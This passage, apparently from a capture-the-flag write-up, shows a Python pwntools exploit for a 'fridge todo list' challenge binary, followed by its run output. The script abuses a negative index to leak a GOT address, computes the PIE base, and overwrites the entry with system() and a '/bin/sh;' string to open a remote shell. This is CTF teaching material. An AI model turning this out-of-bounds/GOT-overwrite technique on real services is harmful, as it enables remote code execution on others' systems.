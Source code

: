 ```python
    read_menu(r)
    r.sendline("2")
    r.sendlineafter("Which entry would you like to read?", str(index))
    r.recvuntil("Your TODO: ")
    return r.recvline(keepends = False)

def store_todo(r, index, todo):
    read_menu(r)
    r.sendline("3")
    r.sendlineafter("In which slot would you like to store the new entry?", str(index))
    r.sendlineafter("What's your TODO?", todo)
    log.info("Storing TODO: \n{}".format(hexdump(todo)))

def spawn_shell():
    e = ELF(LOCAL_PATH)
    r = remote("fridge-todo-list.ctfcompetition.com", 1337)
    login(r, "username")

    write_address = u64(read_todo(r, -6).ljust(8, '\x00'))
    log.info("Address of write() @ .got.plt: {}".format(hex(write_address))) # Entry is unresolved at the time of the leak

    log.info("Address of write() plt: {}".format(hex(e.plt["write"]))) 
    log.info("Address of system() plt: {}".format(hex(e.plt["system"])))

    base = write_address - e.plt["write"]
    log.info("Base address: {}".format(hex(base)))

    log.info("Calculates address of system() resolution logic @ plt: {}".format(hex(base + e.plt["system"])))

    payload = "/bin/sh;" + p64(base + e.plt["system"])
    store_todo(r, -6, payload)

    return r

if __name__ == "__main__":
    r = spawn_shell()
    r.interactive()
```

Output:
```
root@kali:/media/sf_CTFs/google/todo# python exploit.py
[*] '/media/sf_CTFs/google/todo/todo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to fridge-todo-list.ctfcompetition.com on port 1337: Done
[*] Address of write() @ .got.plt: 0x55f5c8c03916
[*] Address of write() plt: 0x910
[*] Address of system() plt: 0x940
[*] Base address: 0x55f5c8c03006
[*] Calculates address of system() resolution logic @ plt: 0x55f5c8c03946
[*] Storing TODO:
    00000000  2f 62 69 6e  2f 73 68 3b  46 39 c0 c8  f5 55 00 00  │/bin│/sh;│F9··│·U··│
    00000010
[*] Switching to interactive mode
 $ ls
holey_beep
todo
todos
```